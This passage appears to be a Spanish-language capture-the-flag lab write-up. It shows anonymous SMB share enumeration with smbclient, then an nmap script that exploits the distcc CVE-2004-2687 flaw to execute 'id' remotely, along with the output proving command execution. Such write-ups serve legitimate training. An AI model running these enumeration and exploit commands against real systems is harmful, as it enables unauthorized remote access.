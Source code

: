 ### Smb Enumeration

Nos descargamos los archivos pero no hay nada interesante

```
# smbclient --no-pass //10.129.251.62/tmp 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  4 21:18:55 2024
  ..                                 DR        0  Sat Oct 31 07:33:58 2020
  5632.jsvc_up                        R        0  Thu Jul  4 15:52:33 2024
  .ICE-unix                          DH        0  Thu Jul  4 15:51:22 2024
  vmware-root                        DR        0  Thu Jul  4 15:52:09 2024
  .X11-unix                          DH        0  Thu Jul  4 15:51:47 2024
  .X0-lock                           HR       11  Thu Jul  4 15:51:47 2024
  vgauthsvclog.txt.0                  R     1600  Thu Jul  4 15:51:20 2024

		7282168 blocks of size 1024. 5385828 blocks available
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
NT_STATUS_ACCESS_DENIED opening remote file \5632.jsvc_up
getting file \.X0-lock of size 11 as .X0-lock (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \vgauthsvclog.txt.0 of size 1600 as vgauthsvclog.txt.0 (4.1 KiloBytes/sec) (average 2.6 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \vmware-root\*
NT_STATUS_ACCESS_DENIED opening remote file \.X11-unix\X0
smb: \> exit
```

### Distcc Enumeration

Al enumerar distcc descubrimos que es vulnerable al CVE-2004-2687

```
# nmap -p 3632 10.129.251.62 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'" -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 21:27 CEST
Nmap scan report for 10.129.251.62
Host is up (0.063s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
```
